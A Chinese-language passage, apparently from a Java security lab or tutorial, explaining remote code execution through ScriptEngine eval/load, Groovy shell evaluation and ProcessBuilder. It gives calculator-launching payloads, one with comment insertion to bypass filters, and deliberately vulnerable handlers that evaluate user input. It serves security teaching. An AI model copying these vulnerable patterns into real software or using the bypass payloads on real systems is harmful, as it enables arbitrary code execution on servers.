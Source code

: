 > 在 Java 8 之后 ScriptEngineManager 的 eval 函数就没有了  
> windows: var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("calc")};  
> Payload 绕过：var a = mainOutput(); function mainOutput() { var x=java.lang.\\/*\*\**\\/Runtime.getRuntime().exec("calc");}

```plain
public String loadJsExec(String url, Model model) {
    try {
        ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");

        // Bindings：用来存放数据的容器
        Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);
        String payload = String.format("load('%s')", url);
        engine.eval(payload, bindings);
        model.addAttribute("results", "远程脚本: " + HtmlUtils.htmlEscape(url) + " 执行成功!");
    } catch (Exception e) {
        e.printStackTrace();
        model.addAttribute("results", e.toString());
    }
    return "basevul/rce/loadjs";
}
```

> 该代码首先通过 ScriptEngineManager 类获取一个支持 JavaScript 的 ScriptEngine 对象。然后，它创建一个 Bindings 对象，用于存放数据。接着，它构造一个包含远程脚本 URL 的字符串，并将该字符串传递给 eval() 方法执行。最后，它将执行结果存储在 model 对象中。

## Groovy

代码执行

-   windows: "calc".execute()
-   macos: "open -a Calculator".execute()
    
    ```plain
    public String groovyExec(String cmd, Model model) {
     GroovyShell shell = new GroovyShell();
     try {
         shell.evaluate(cmd);
         model.addAttribute("results", "执行成功！！！");
     } catch (Exception e) {
         e.printStackTrace();
         model.addAttribute("results", e.toString());
     }
     return "basevul/rce/groovy";
    }
    ```
    
    \## ProcessBuilder
    
    > Process 类是一个抽象类（所有的方法均是抽象的），封装了一个进程（即一个执行程序）。  
    > Process 类提供了执行从进程输入、执行输出到进程、等待进程完成、检查进程的退出状态以及销毁（杀掉）进程的方法。  
    > ProcessBuilder.start() 和 Runtime.exec 方法创建一个本机进程，并返回 Process 子类的一个实例，该实例可用来控制进程并获取相关信息。  
    > 创建的子进程没有自己的终端或控制台。它的所有标准 io（即 stdin，stdout，stderr）操作都将通过三个流 (getOutputStream()，getInputStream()，getErrorStream()) 重定向到父进程，通过流的形式进行读取。
    